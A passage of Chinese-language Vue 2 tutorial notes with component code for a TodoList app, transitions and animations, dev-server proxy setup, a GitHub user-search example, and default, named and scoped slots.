import MyHeader from "./components/MyHeader";
import MyList from "./components/MyList";
import MyFooter from "./components/MyFooter";

export default {
  name: "App",
  components: { MyHeader, MyList, MyFooter },
  data: function () {
    return {
      // 由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
      todos: JSON.parse(localStorage.getItem("todos")) || [],
    };
  },
  methods: {
    // 添加一个todo
    addTodo(todoObj) {
      this.todos.unshift(todoObj);
    },
    // 勾选or取消勾选一个todo
    checkTodo(id) {
      this.todos.forEach((todo) => {
        if (todo.id === id) {
          todo.done = !todo.done;
        }
      });
    },
    // 更新一个todo
    updateTodo(id, title) {
      this.todos.forEach((todo) => {
        if (todo.id === id) {
          todo.title = title;
        }
      });
    },
    // 删除一个todo
    deleteTodo: function (msgName, id) {
      this.todos = this.todos.filter((todo) => {
        return todo.id !== id;
      });
    },
    // 全选or取消全选
    checkAllTodo: function (done) {
      this.todos.forEach((todo) => {
        todo.done = done;
      });
    },
    // 清除所有已有完成的todo
    clearAllTodo: function () {
      this.todos = this.todos.filter((todo) => {
        return !todo.done;
      });
    },
  },
  watch: {
    todos: {
      deep: true,
      handler: function (value) {
        localStorage.setItem("todos", JSON.stringify(value));
      },
    },
  },
  mounted() {
    this.$bus.$on("checkTodo", this.checkTodo);
    this.$bus.$on("updateTodo", this.updateTodo);
    this.pubId = pubsub.subscribe("deleteTodo", this.deleteTodo);
  },
  beforeDestroy() {
    this.$bus.$off("checkTodo");
    this.$bus.$off("updateTodo");
    pubsub.unsubscribe(this.pubId);
  },
};
</script>
<style>
/* base */
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-edit {
  color: #fff;
  background-color: skyblue;
  border: 1px solid rgb(103, 159, 180);
  margin-right: 5px;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}
</style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

## Vue 封装的过渡与动画：

---

1. 作用：在插入、更新或移除 DOM 元素时，在合适的时候给元素添加样式类名。

- 条件渲染 (使用 `v-if`)
- 条件展示 (使用 `v-show`)

1. 图示：

   

2. 写法：

   1. 准备好样式：

      - 元素进入的样式：
        1. v-enter：进入的起点
        2. v-enter-active：进入过程中
        3. v-enter-to：进入的终点
      - 元素离开的样式：
        1. v-leave：离开的起点
        2. v-leave-active：离开过程中
        3. v-leave-to：离开的终点

   2. 使用**`<transition>`**标签包裹要过渡的元素，并配置 name 属性：

      ```
      <transition name='hello'>
      	<h1 v-show='isShow'>你好啊！</h1>
      </transition>
      ```

   3. 备注：若有多个元素需要过渡，则需要使用：`<transition-group>`标签，且每个元素都要指定`key`值。

```vue
//test.vue文件：
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <transition name="hello" :appear="true">
      <h1 v-show="isShow">你好啊！</h1>
    </transition>
  </div>
</template>
<script>
export default {
  name: "Test",
  data() {
    return {
      isShow: true,
    };
  },
};
</script>
<style scoped>
h1 {
  background-color: orange;
}
.hello-enter-active {
  animation: bilibili 0.5s linear;
}
.hello-leave-active {
  animation: bilibili 0.5s linear reverse;
}
@keyframes bilibili {
  from {
    transform: translateX(-100%);
  }
  to {
    transform: translateX(0px);
  }
}
</style>
```

```vue
//test2.vue文件：
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <transition-group name="hello" :appear="true">
      <h1 v-show="!isShow" :key="1">你好啊！</h1>
      <h1 v-show="isShow" :key="2">bilibili！</h1>
    </transition-group>
  </div>
</template>
<script>
export default {
  name: "Test2",
  data() {
    return {
      isShow: true,
    };
  },
};
</script>
<style scoped>
h1 {
  background-color: orange;
  /* transition: 0.5s linear; */
}
/* 进入的起点 离开的终点*/
.hello-enter,
.hello-leave-to {
  transform: translateX(-100%);
}
.hello-enter-active,
.hello-leave-active {
  transition: 0.5s linear;
}
/* 进入的终点 离开的起点*/
.hello-enter-to,
.hello-leave {
  transform: translateX(0);
}
</style>
```

```vue
//test3.vue文件：
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <transition-group
      name="animate__animated animate__bounce"
      :appear="true"
      enter-active-class="animate__swing"
      leave-active-class="animate__backOutUp"
    >
      <h1 v-show="!isShow" :key="1">你好啊！</h1>
      <h1 v-show="isShow" :key="2">bilibili！</h1>
    </transition-group>
  </div>
</template>
<script>
import "animate.css";
export default {
  name: "Test3",
  data() {
    return {
      isShow: true,
    };
  },
};
</script>
<style scoped>
h1 {
  background-color: orange;
  /* transition: 0.5s linear; */
}
</style>
```

```vue
//App.vue文件：
<template>
  <div>
    <Test />
    <Test2 />
    <Test3 />
  </div>
</template>
<script>
import Test from "./components/test";
import Test2 from "./components/test2";
import Test3 from "./components/test3";
export default {
  name: "App",
  components: { Test, Test2, Test3 },
};
</script>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

### TodoList\_动画：

```vue
//MyFooter.vue文件：
<template>
  <div class="todo-footer" v-show="total">
    <label>
      <!-- <input type="checkbox" :checked="isAll" @change="checkAll" /> -->
      <input type="checkbox" v-model="isAll" />
    </label>
    <span>
      <span>已完成{{ doneTotal }}</span> / 全部{{ total }}
    </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>
<script>
export default {
  name: "MyFooter",
  props: ["todos"],
  computed: {
    total: function () {
      return this.todos.length;
    },
    // isAll: function () {
    //   return this.doneTotal === this.total && this.total > 0;
    // },
    isAll: {
      get() {
        return this.doneTotal === this.total && this.total > 0;
      },
      set(value) {
        // this.checkAllTodo(value);
        this.$emit("checkAllTodo", value);
      },
    },
    doneTotal: function () {
      // 第一种写法，但不是很完美
      // let i = 0;
      // this.todos.forEach((todo) => {
      //   if (todo.done) {
      //     i++;
      //   }
      // });
      // return i;
      // 第二种写法
      /*const x = this.todos.reduce((pre, current) => {
        return pre + (current.done ? 1 : 0);
      }, 0);*/
      // 第二种简写
      return this.todos.reduce((pre, todo) => pre + (todo.done ? 1 : 0), 0);
    },
  },
  methods: {
    /*checkAll: function (event) {
      // console.log(event.target.checked);
      this.checkAllTodo(event.target.checked);
    },*/
    clearAll: function () {
      if (confirm("是否确认删除")) {
        this.$emit("clearAllTodo");
      }
    },
  },
};
</script>
<style scoped>
/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}
</style>
```

```vue
//MyHeader.vue文件：
<template>
  <div class="todo-header">
    <input
      type="text"
      placeholder="请输入你的任务名称，按回车键确认"
      v-model="title"
      @keyup.enter="add"
    />
  </div>
</template>
<script>
import { nanoid } from "nanoid";
export default {
  name: "MyHeader",
  data: function () {
    return {
      title: "",
    };
  },
  methods: {
    add: function (event) {
      // 校验数据
      if (!this.title.trim()) {
        return alert("输入不能为空");
      }
      // 将用户的输入包装成应该todo对象
      const todoObj = { id: nanoid(), title: this.title, done: false };
      // 通知App组件去添加一个todo对象
      this.$emit("addTodo", todoObj);
      // 清空输入
      this.title = "";
    },
  },
};
</script>
<style scoped>
/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}
.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
}
</style>
```

```vue
//MyItem.vue文件：
<template>
  <!-- <transition name="todo" appear> -->
  <li>
    <label>
      <input
        type="checkbox"
        :checked="todo.done"
        @change="handleCheck(todo.id)"
      />
      <!-- 如下代码也能实现功能，但是不太推荐，因为有点违法原则，因为修改了props -->
      <!-- <input type="checkbox" v-model="todo.done" /> -->
      <span v-show="!todo.isEdit">{{ todo.title }}</span>
      <input
        type="text"
        v-show="todo.isEdit"
        :value="todo.title"
        @blur="handleBlur(todo, $event)"
        ref="inputTitle"
      />
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
    <button
      v-show="!todo.isEdit"
      class="btn btn-edit"
      @click="handleEdit(todo)"
    >
      编辑
    </button>
  </li>
  <!-- </transition> -->
</template>

<script>
import pubsub from "pubsub-js";
export default {
  name: "MyItem",
  // 声明接收todo
  props: ["todo"],
  methods: {
    // 勾选or取消勾选
    handleCheck: function (id) {
      // 通知App组件将对应的todo对象的done值取反
      // this.checkTodo(id);
      this.$bus.$emit("checkTodo", id);
    },
    // 删除
    handleDelete: function (id) {
      if (confirm("确实删除嘛？")) {
        // this.deleteTodo(id);
        // this.$bus.$emit("deleteTodo", id);
        pubsub.publish("deleteTodo", id);
      }
    },
    // 编辑
    handleEdit: function (todo) {
      if (todo.hasOwnProperty("isEdit")) {
        todo.isEdit = true;
      } else {
        console.log("todo身上没有isEdit");
        this.$set(todo, "isEdit", true);
      }
      this.$nextTick(function () {
        this.$refs.inputTitle.focus();
      });
    },
    //失去焦点回调（真正执行修改逻辑）
    handleBlur: function (todo, event) {
      todo.isEdit = false;
      if (!event.target.value.trim()) {
        return alert("输入不能为空");
      }
      this.$bus.$emit("updateTodo", todo.id, event.target.value);
    },
  },
};
</script>

<style scoped>
/* 动画效果
.todo-enter-active {
  animation: Todo 0.5s linear;
}
.todo-leave-active {
  animation: Todo 0.5s linear reverse;
}
@keyframes Todo {
  from {
    transform: translateX(100%);
  }
  to {
    transform: translateX(0px);
  }
} */
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}
li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}
li:hover {
  background-color: #ddd;
}
li:hover button {
  display: block;
}
</style>
```

```vue
//MyList.vue文件：
<template>
  <ul class="todo-main">
    <transition-group name="todo" appear>
      <MyItem v-for="todoObj in todos" :key="todoObj.id" :todo="todoObj" />
    </transition-group>
  </ul>
</template>
<script>
import MyItem from "./MyItem";
export default {
  name: "MyList",
  components: { MyItem },
  // 声明接收App传递过来的数据
  props: ["todos"],
};
</script>
<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
/* 动画效果 */
.todo-enter-active {
  animation: Todo 0.5s linear;
}
.todo-leave-active {
  animation: Todo 0.5s linear reverse;
}
@keyframes Todo {
  from {
    transform: translateX(100%);
  }
  to {
    transform: translateX(0px);
  }
}
</style>
```

```vue
//App.vue文件：
<template>
  <div>
    <div id="root">
      <div class="todo-container">
        <div class="todo-wrap">
          <MyHeader @addTodo="addTodo" />
          <MyList :todos="todos" />
          <MyFooter
            :todos="todos"
            @checkAllTodo="checkAllTodo"
            @clearAllTodo="clearAllTodo"
          />
        </div>
      </div>
    </div>
  </div>
</template>
<script>
import pubsub from "pubsub-js";
import MyHeader from "./components/MyHeader";
import MyList from "./components/MyList";
import MyFooter from "./components/MyFooter";

export default {
  name: "App",
  components: { MyHeader, MyList, MyFooter },
  data: function () {
    return {
      // 由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
      todos: JSON.parse(localStorage.getItem("todos")) || [],
    };
  },
  methods: {
    // 添加一个todo
    addTodo(todoObj) {
      this.todos.unshift(todoObj);
    },
    // 勾选or取消勾选一个todo
    checkTodo(id) {
      this.todos.forEach((todo) => {
        if (todo.id === id) {
          todo.done = !todo.done;
        }
      });
    },
    // 更新一个todo
    updateTodo(id, title) {
      this.todos.forEach((todo) => {
        if (todo.id === id) {
          todo.title = title;
        }
      });
    },
    // 删除一个todo
    deleteTodo: function (msgName, id) {
      this.todos = this.todos.filter((todo) => {
        return todo.id !== id;
      });
    },
    // 全选or取消全选
    checkAllTodo: function (done) {
      this.todos.forEach((todo) => {
        todo.done = done;
      });
    },
    // 清除所有已有完成的todo
    clearAllTodo: function () {
      this.todos = this.todos.filter((todo) => {
        return !todo.done;
      });
    },
  },
  watch: {
    todos: {
      deep: true,
      handler: function (value) {
        localStorage.setItem("todos", JSON.stringify(value));
      },
    },
  },
  mounted() {
    this.$bus.$on("checkTodo", this.checkTodo);
    this.$bus.$on("updateTodo", this.updateTodo);
    this.pubId = pubsub.subscribe("deleteTodo", this.deleteTodo);
  },
  beforeDestroy() {
    this.$bus.$off("checkTodo");
    this.$bus.$off("updateTodo");
    pubsub.unsubscribe(this.pubId);
  },
};
</script>
<style>
/* base */
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-edit {
  color: #fff;
  background-color: skyblue;
  border: 1px solid rgb(103, 159, 180);
  margin-right: 5px;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}
</style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

## vue 脚手架配置代理：

---

#### 方法一：

在 vue.config.js 中添加如下配置：

```
devServer:{
	proxy:"http://localhost:5000"
}
```

说明：

1. 优点：配置简单，请求资源时直接发给前端（8080）即可。
2. 缺点：不能配置多个代理，不能灵活的控制请求是否走代理。
3. 工作方式：若按照上述配置代理，当请求了前端不存在的资源时，那么该请求会转发给服务器（优先匹配前端资源）

#### 方法二：

编写 vue.config.js 配置具体代理规则：

```js
module.exports = {
  ......
  devServer: {
    proxy: {
      '/api1': { //匹配所有以 '/api1' 开头的请求路径
        target: 'http://localhost:5000',//代理目标的基础路径
        ws: true,	//用于支持websocket
        changeOrigin: true,
         pathRewrite:{'^/api1':''},
      },
      '/api2': { //匹配所有以 '/api2' 开头的请求路径
        target: 'http://localhost:5001',//代理目标的基础路径
        ws: true,	//用于支持websocket
        changeOrigin: true,
        pathRewrite:{'^/api2':''},
      }
    }
  }
}
/*
	changeOrigin设置为true时，服务器收到的请求头中的host为：localhost:5000
	changeOrigin设置为false时，服务器收到的请求头中的host为：localhost:8080
	changeOrigin默认值为true
*/
```

说明：

1. 优点：可以配置多个代理，且可以灵活的控制请求是否走代理。
2. 缺点：配置略微繁琐，请求资源时必须加前缀。

```vue
//App.vue文件：
<template>
  <div>
    <button @click="getStudents">获取学生信息</button>
    <button @click="getCars">获取汽车信息</button>
  </div>
</template>
<script>
import axios from "axios";
export default {
  name: "App",
  methods: {
    getStudents: function () {
      axios.get("http://localhost:8080/bilibili/students").then(
        (response) => {
          console.log("请求成功了", response.data);
        },
        (error) => {
          console.log("请求失败了", error.message);
        }
      );
    },
    getCars: function () {
      axios.get("http://localhost:8080/demo/Cars").then(
        (response) => {
          console.log("请求成功了", response.data);
        },
        (error) => {
          console.log("请求失败了", error.message);
        }
      );
    },
  },
};
</script>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

### github 搜索案例：

```vue
List.vue文件：
<template>
  <div>
    <div class="row">
      <!-- 展示用户列表 -->
      <div
        v-show="info.users.length"
        class="card"
        v-for="user in info.users"
        :key="user.login"
      >
        <a :href="user.html_url" target="_blank">
          
        </a>
        <p class="card-text">{{ user.login }}</p>
      </div>
      <!-- 展示欢迎词 -->
      <h1 v-show="info.isFist">欢迎使用！</h1>
      <!-- 展示加载中 -->
      <h1 v-show="info.isLoading">加载中...</h1>
      <!-- 展示错误信息 -->
      <h1 v-show="info.errMag">{{ info.errMag }}</h1>
    </div>
  </div>
</template>
<script>
export default {
  name: "List",
  data() {
    return {
      info: {
        isFist: true,
        isLoading: false,
        errMag: "",
        users: [],
      },
    };
  },
  mounted() {
    this.$bus.$on("updateListData", (dataObj) => {
      //   console.log("我是List组件，收到数据", users);
      this.info = { ...this.info, ...dataObj };
    });
  },
};
</script>
<style scoped>
.album {
  min-height: 50rem; /* Can be removed; just added for demo purposes */
  padding-top: 3rem;
  padding-bottom: 3rem;
  background-color: #f7f7f7;
}

.card {
  float: left;
  width: 33.333%;
  padding: 0.75rem;
  margin-bottom: 2rem;
  border: 1px solid #efefef;
  text-align: center;
}

.card > img {
  margin-bottom: 0.75rem;
  border-radius: 100px;
}

.card-text {
  font-size: 85%;
}
</style>
```

```vue
//Search.vue文件：
<template>
  <div>
    <section class="jumbotron">
      <h3 class="jumbotron-heading">Search Github Users</h3>
      <div>
        <input
          type="text"
          placeholder="enter the name you search"
          v-model="keyWord"
        />&nbsp;<button @click="searchUsers">Search</button>
      </div>
    </section>
  </div>
</template>
<script>
import axios from "axios";
export default {
  name: "Search",
  data() {
    return {
      keyWord: "",
    };
  },
  methods: {
    searchUsers: function () {
      // 请求前更新List的数据
      this.$bus.$emit("updateListData", {
        isFirst: false,
        isLoading: true,
        errMsg: "",
        users: [],
      });
      axios.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(
        (response) => {
          //   console.log("请求成功了", response.data.items);
          //   请求成功后更新List的数据
          this.$bus.$emit("updateListData", {
            isLoading: false,
            errMsg: "",
            users: response.data.items,
          });
        },
        (error) => {
          //   console.log("请求失败了", error.message);
          //   请求失败后更新List的数据
          this.$bus.$emit("updateListData", {
            isLoading: false,
            errMsg: "error.message",
            users: [],
          });
        }
      );
    },
  },
};
</script>
```

```vue
//App.vue文件：
<template>
  <div class="container">
    <Search />
    <List />
  </div>
</template>
<script>
import Search from "./components/Search";
import List from "./components/List";
export default {
  name: "App",
  components: { Search, List },
};
</script>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

### girhub 搜索案例\_vue-resource：

```vue
//List.vue文件：
<template>
  <div>
    <div class="row">
      <!-- 展示用户列表 -->
      <div
        v-show="info.users.length"
        class="card"
        v-for="user in info.users"
        :key="user.login"
      >
        <a :href="user.html_url" target="_blank">
          
        </a>
        <p class="card-text">{{ user.login }}</p>
      </div>
      <!-- 展示欢迎词 -->
      <h1 v-show="info.isFist">欢迎使用！</h1>
      <!-- 展示加载中 -->
      <h1 v-show="info.isLoading">加载中...</h1>
      <!-- 展示错误信息 -->
      <h1 v-show="info.errMag">{{ info.errMag }}</h1>
    </div>
  </div>
</template>
<script>
export default {
  name: "List",
  data() {
    return {
      info: {
        isFist: true,
        isLoading: false,
        errMag: "",
        users: [],
      },
    };
  },
  mounted() {
    this.$bus.$on("updateListData", (dataObj) => {
      //   console.log("我是List组件，收到数据", users);
      this.info = { ...this.info, ...dataObj };
    });
  },
};
</script>
<style scoped>
.album {
  min-height: 50rem; /* Can be removed; just added for demo purposes */
  padding-top: 3rem;
  padding-bottom: 3rem;
  background-color: #f7f7f7;
}

.card {
  float: left;
  width: 33.333%;
  padding: 0.75rem;
  margin-bottom: 2rem;
  border: 1px solid #efefef;
  text-align: center;
}

.card > img {
  margin-bottom: 0.75rem;
  border-radius: 100px;
}

.card-text {
  font-size: 85%;
}
</style>
```

```vue
//Search.vue文件：
<template>
  <div>
    <section class="jumbotron">
      <h3 class="jumbotron-heading">Search Github Users</h3>
      <div>
        <input
          type="text"
          placeholder="enter the name you search"
          v-model="keyWord"
        />&nbsp;<button @click="searchUsers">Search</button>
      </div>
    </section>
  </div>
</template>
<script>
import axios from "axios";
export default {
  name: "Search",
  data() {
    return {
      keyWord: "",
    };
  },
  methods: {
    searchUsers: function () {
      // 请求前更新List的数据
      this.$bus.$emit("updateListData", {
        isFirst: false,
        isLoading: true,
        errMsg: "",
        users: [],
      });
      this.$http
        .get(`https://api.github.com/search/users?q=${this.keyWord}`)
        .then(
          (response) => {
            //   console.log("请求成功了", response.data.items);
            //   请求成功后更新List的数据
            this.$bus.$emit("updateListData", {
              isLoading: false,
              errMsg: "",
              users: response.data.items,
            });
          },
          (error) => {
            //   console.log("请求失败了", error.message);
            //   请求失败后更新List的数据
            this.$bus.$emit("updateListData", {
              isLoading: false,
              errMsg: "error.message",
              users: [],
            });
          }
        );
    },
  },
};
</script>
```

```vue
//App.vue文件：
<template>
  <div class="container">
    <Search />
    <List />
  </div>
</template>
<script>
import Search from "./components/Search";
import List from "./components/List";
export default {
  name: "App",
  components: { Search, List },
};
</script>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 引入vue-serouurce
import vueResource from "vue-resource";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 使用插件
Vue.use(vueResource);
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

## 插槽：

---

1. 作用：让父组件可以向子组件指定位置插入 html 结构，也是一种组件间通信的方式，适用于 **父组件 ===> 子组件**

2. 分类：默认插槽、具名插槽、作用域插槽

3. 使用方式：

   1. 默认插槽：

      ```html
      父组件中：
      <Gategory>
        <div>html结构</div>
      </Gategory>
      子组件中：
      <template>
        <div>
          <!--定义插槽-->
          <slot>插槽默认内容...</slot>
        </div>
      </template>
      ```

   2. 具名插槽：

      ```html
      父组件中：
      <Gategory>
        <template slot="center">
          <div>html结构1</div>
        </template>

        <template v-slot="center">
          <div>html结构2</div>
        </template>
      </Gategory>
      子组件：
      <template>
        <div>
          <!--定义插槽-->
          <slot name="center">插槽默认内容...</slot>
          <slot name="footer">插槽默认内容...</slot>
        </div>
      </template>
      ```

   3. 作用域插槽：

      1. 理解：数据在组件的自身，但根据数据生成的结构需要组件的使用者来决定。（games 数据在 Category 组件中，但使用数据所遍历出来的结构由 App 组件决定）

      2. 具体编码：

         ```vue
         父组件中：
         <Gategory>
         		<template slot="scopeData">
                   	<!--生成的是ul列表-->
                   	<ul>
                   		<li v-for="g in scopeData.games" :key="g">{{g}}</li>
                   	</ul>
            		</template>
         	</Gategory>
         
         <Gategory>
         		<template slot="scopeData">
                   	<!--生成的是h4列表-->
                   	<h4 v-for="g in scopeData.games" :key="g">{{g}}</h4>
            		</template>
         	</Gategory>
         子组件：
         <template>
           <div>
             <slot :games="games"></slot>
           </div>
         </template>
         
         <script>
         export default {
           name: "Gategory",
           props: ["title"],
           //数据在子组件自身
           data() {
             return {
               games: ["红色警戒", "穿越火线", "劲舞团", "超级玛丽"],
             };
           },
         };
         </script>
         ```

      #### 默认插槽：

      ```vue
      //Category.vue文件：
      <template>
        <div class="category">
          <h3>{{ title }}分类</h3>
          <!-- 定义一个插槽（挖一个坑，等着组件的使用者进行填充） -->
          <slot>我是一下默认值，当使用者没有传递具体结构时候，我会出现</slot>
        </div>
      </template>
      <script>
      export default {
        name: "Category",
        data() {
          return {};
        },
        props: ["title"],
      };
      </script>
      <style scoped>
      .category {
        background-color: skyblue;
        width: 200px;
        height: 300px;
      }
      h3 {
        text-align: center;
        background-color: orange;
      }
      </style>
      ```

      ```vue
      //App.vue文件：
      <template>
        <div class="container">
          <Category title="美食">
            
          </Category>
          <Category title="游戏">
            <ul>
              <li v-for="(g, index) in games" :key="index">{{ g }}</li>
            </ul>
          </Category>
          <Category title="电影">
            <video
              controls
              src="http://clips.vorwaerts-gmbh.de/big_buck_bunny.mp4"
            ></video>
          </Category>
        </div>
      </template>
      <script>
      import Category from "./components/Category";
      export default {
        name: "App",
        components: { Category },
        data() {
          return {
            foods: ["火锅", "烧烤", "小龙虾", "牛排"],
            games: ["红色警戒", "穿越火线", "劲舞团", "超级玛丽"],
            films: [
              "《教父》",
              "《拆弹专家》",
              "《你好，李焕英》",
              "《速度与激情》",
            ],
          };
        },
      };
      </script>
      <style scoped>
      .container {
        display: flex;
        justify-content: space-around;
      }
      img {
        width: 100%;
      }
      video {
        width: 100%;
      }
      </style>
      ```

      ```js
      //main.js文件：
      // 引入vue
      import Vue from "vue";
      // 引入app
      import App from "./App.vue";
      // 引入vue-serouurce
      import vueResource from "vue-resource";
      // 关闭vue的生产提示
      Vue.config.productionTip = false;
      // 使用插件
      Vue.use(vueResource);
      // 创建vm
      new Vue({
        el: "#app",
        render: (h) => h(App),
        beforeCreate() {
          Vue.prototype.$bus = this;
        },
      });
      ```

      #### 具名插槽：

      ```vue
      //Category.vue文件：
      <template>
        <div class="category">
          <h3>{{ title }}分类</h3>
          <!-- 定义一个插槽（挖一个坑，等着组件的使用者进行填充） -->
          <slot name="center"
            >我是一下默认值，当使用者没有传递具体结构时候，我会出现</slot
          >
          <slot name="footer"
            >我是一下默认值，当使用者没有传递具体结构时候，我会出现</slot
          >
        </div>
      </template>
      <script>
      export default {
        name: "Category",
        data() {
          return {};
        },
        props: ["title"],
      };
      </script>
      <style scoped>
      .category {
        background-color: skyblue;
        width: 200px;
        height: 300px;
      }
      h3 {
        text-align: center;
        background-color: orange;
      }
      </style>
      ```

      ```vue
      //App.vue文件：
      <template>
        <div class="container">
          <Category title="美食">
            
            <a slot="footer" href="#">更多美食</a>
          </Category>
          <Category title="游戏">
            <ul slot="center">
              <li v-for="(g, index) in games" :key="index">{{ g }}</li>
            </ul>
            <div class="foot" slot="footer">
              <a href="#">单击游戏</a>
              <a href="#">网络游戏</a>
            </div>
          </Category>
          <Category title="电影">
            <video
              slot="center"
              controls
              src="http://clips.vorwaerts-gmbh.de/big_buck_bunny.mp4"
            ></video>
            <template v-slot:footer>
              <div class="foot">
                <a href="#">经典</a>
                <a href="#">热门</a>
                <a href="#">推荐</a>
              </div>
              <h4 slot="footer">欢迎前来观影</h4>
            </template>
          </Category>
        </div>
      </template>
      <script>
      import Category from "./components/Category";
      export default {
        name: "App",
        components: { Category },
        data() {
          return {
            foods: ["火锅", "烧烤", "小龙虾", "牛排"],
            games: ["红色警戒", "穿越火线", "劲舞团", "超级玛丽"],
            films: [
              "《教父》",
              "《拆弹专家》",
              "《你好，李焕英》",
              "《速度与激情》",
            ],
          };
        },
      };
      </script>
      <style scoped>
      .container,
      .foot {
        display: flex;
        justify-content: space-around;
      }
      img {
        width: 100%;
      }
      video {
        width: 100%;
      }
      h4 {
        text-align: center;
      }
      </style>
      ```

      ```js
      //main.js文件：
      // 引入vue
      import Vue from "vue";
      // 引入app
      import App from "./App.vue";
      // 引入vue-serouurce
      import vueResource from "vue-resource";
      // 关闭vue的生产提示
      Vue.config.productionTip = false;
      // 使用插件
      Vue.use(vueResource);
      // 创建vm
      new Vue({
        el: "#app",
        render: (h) => h(App),
        beforeCreate() {
          Vue.prototype.$bus = this;
        },
      });
      ```

      #### 作用域插槽：

      ```vue
      //Category.vue文件：
      <template>
        <div class="category">
          <h3>{{ title }}分类</h3>
          <slot :games="games">我是默认的一些内容</slot>
        </div>
      </template>
      <script>
      export default {
        name: "Category",
        data() {
          return {
            games: ["红色警戒", "穿越火线", "劲舞团", "超级玛丽"],
          };
        },
        props: ["title"],
      };
      </script>
      <style scoped>
      .category {
        background-color: skyblue;
        width: 200px;
        height: 300px;
      }
      h3 {
        text-align: center;
        background-color: orange;
      }
      </style>
      ```

      ```vue
      //App.vue文件：
      <template>
        <div class="container">
          <Category title="游戏">
            <template scope="bilibili">
              <ul>
                <li v-for="(g, index) in bilibili.games" :key="index">
                  {{ g }}
                </li>
              </ul>
            </template>
          </Category>
          <Category title="游戏">
            //es6解构赋值
            <template scope="{games}">
              <ol>
                <li style="color: red" v-for="(g, index) in games" :key="index">
                  {{ g }}
                </li>
              </ol>
            </template>
          </Category>
          <Category title="游戏">
            <template slot-scope="bilibili">
              <h4 v-for="(g, index) in bilibili.games" :key="index">{{ g }}</h4>
            </template>
          </Category>
        </div>
      </template>
      <script>
      import Category from "./components/Category";
      export default {
        name: "App",
        components: { Category },
      };
      </script>
      <style scoped>
      .container,
      .foot {
        display: flex;
